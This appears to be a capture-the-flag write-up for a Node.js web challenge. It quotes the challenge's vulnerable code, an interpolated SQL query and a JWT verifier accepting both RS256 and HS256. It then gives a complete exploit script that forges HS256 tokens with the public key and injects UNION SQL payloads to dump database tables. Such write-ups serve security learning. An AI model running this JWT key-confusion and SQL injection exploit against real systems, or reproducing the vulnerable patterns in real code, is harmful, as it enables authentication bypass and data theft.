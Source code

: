# Under Construction
![Screenshot from 2021-08-19 14-52-52](https://user-images.githubusercontent.com/87865134/130029943-e54ac3d8-10d0-49f4-9ee1-000c7142a301.png)

## Information Gathering & Analysis
- router:
```JavaScript
router.get('/', AuthMiddleware, async (req, res, next) => {
    try{
        let user = await DBHelper.getUser(req.data.username);
        if (user === undefined) {
            return res.send(`user ${req.data.username} doesn't exist in our database.`);
        }
        return res.render('index.html', { user });
    }catch (err){
        return next(err);
    }
});
```
- DBHelper.js:
```JavaScript
getUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
                if (err) return rej(err);
                res(data);
            });
        });
}
```
- AuthMiddleware.js:
```JavaScript
const JWTHelper = require('../helpers/JWTHelper');

module.exports = async (req, res, next) => {
    try{
        if (req.cookies.session === undefined) return res.redirect('/auth');
        let data = await JWTHelper.decode(req.cookies.session);
        req.data = {
            username: data.username
        }
        next();
    } catch(e) {
        console.log(e);
        return res.status(500).send('Internal server error');
    }
}
```
- JWTHelper.js:
```JavaScript
const fs = require('fs');
const jwt = require('jsonwebtoken');

const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    async sign(data) {
        data = Object.assign(data, {pk:publicKey});
        return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
    },
    async decode(token) {
        return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
    }
}
```
- Analysis:
  - when user navigate to `router.get('/')` -> `AuthMiddleware` check cookie of request -> use `JWTHelper` to verify cookie and then check whether user exist or not. If user exist -> get data of user from datase
  - `getUser()` function in `DBHelper.js` is SQLi vulnerability
  - flaw in `JWTHelper.js`:
    - `sign()` use asymmetric algorithm `RS256`: privateKey to sign
    - `decode()` use both asymmetric and symmetric algorithm (RS256, HS256) -> signature sign with `privateKey` can decode with `publicKey` by using `RS256`. However, signature sign with `publicKey` by using `HS256` can also decode with `publicKey` by using HS256

- How to exploit:
  - decode `cookie` to get data 
  - modify `cookie` to exploit SQLi
  - sign againt to send with request

## Exploit
- Nodejs script:
```JavaScript
const jwt = require('jsonwebtoken');
const request = require('request');

let url = 'http://46.101.23.188:32721/'
let account = {
    username: 'ndqk3',
    password: 'khanh29h'
}

const decode = (session) => {
    return jwt.decode(session)
}

const sign = (data, key, algorithm) => {
    return jwt.sign(data, key, { algorithm: algorithm })
}

const register = new Promise((resolve, reject) => {
    let req = request.post({
        url: url + 'auth',
        form: {
            username: account.username,
            password: account.password,
            register: "Register"
        }
    });

    req.on('response', res => {
        resolve(res)
    })

    req.on('error', err => {
        reject(err)
    })
})

const login = new Promise((resolve, reject) => {
    let req = request.post({
        url: url + 'auth',
        form: {
            username: account.username,
            password: account.password,
            login: "Login"
        }
    });

    req.on('response', res => {
        resolve(res)
    })

    req.on('error', err => {
        reject(err)
    })
})

//dump all tables
//let sql = `' union select 1,group_concat(name),3 from sqlite_master where type='table'--;`

//dump columns of table
//let sql = `' union select 1,sql,3 from sqlite_master where name='flag_storage'--;`

//dump data of table
let sql = `' union select 1,top_secret_flaag,3 from flag_storage --;`


register.then((res) => {
    login.then((response) => {
        let cookie = response.headers['set-cookie'][0]
        let token = cookie.slice(cookie.indexOf('=') + 1, cookie.indexOf(';'))
        let jwt = decode(token)
        jwt.username = sql
        request.get({ url: url, headers: { 'Cookie': `session=${sign(jwt, jwt.pk, "HS256")}` } }, (err, response, body) => {
            if (response.statusCode == 200) {
                res = body.match(/Welcome ([\s\S]*)<br>\n\s*This/)
                console.log(res[1])
            }
        })
    })
})
```
- run script and get flag

![Screenshot from 2021-08-19 19-56-14](https://user-images.githubusercontent.com/87865134/130072066-155ede63-ac02-4230-b242-2506c65a47fc.png)

## - Description
- **category:**
  - SQL injection
  - JWT key confusion
